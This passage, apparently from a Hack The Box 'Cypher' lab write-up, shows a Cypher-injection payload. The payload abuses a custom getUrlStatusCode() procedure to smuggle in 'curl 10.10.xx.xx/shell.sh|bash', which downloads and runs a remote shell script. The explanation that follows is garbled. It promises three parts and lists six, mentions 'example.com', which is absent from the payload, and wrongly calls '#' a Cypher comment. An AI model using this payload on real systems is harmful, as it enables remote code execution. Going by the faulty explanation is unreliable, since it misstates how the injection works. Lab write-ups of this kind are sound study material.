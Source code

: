 ![Screenshot 2025-03-02 at 2.08.26 AM.png](/assets/Images/HTB_Cypher/Screenshot_2025-03-02_at_2.08.26_AM.png)

So we got the system command for this `getUrlStatusCode()`

Payload 

```bash
' return h.value as a UNION CALL custom.getUrlStatusCode(\"cypher.com;curl 10.10.xx.xx/shell.sh|bash;#\") YIELD statusCode AS a RETURN a;//
```

Here's why it takes three parts:

1. The **`UNION`** statement allows combining **two separate Cypher queries**.
2. The second query (`CALL custom.getUrlStatusCode(...)`) executes independently.
3. The function `custom.getUrlStatusCode(...)` is supposed to check the status of a URL, but we are injecting a **command instead**.
4. **`example.com`** → This is the expected input, likely the target **domain or URL** the function is supposed to check the HTTP status for.
5. **`; bash;`** → The semicolon (`;`) **ends the original command** and **starts a new command** (`bash` in this case).
6. **`#`** → The `#` symbol is a **comment in Cypher**, meaning anything after it is ignored, which helps **hide syntax errors**.
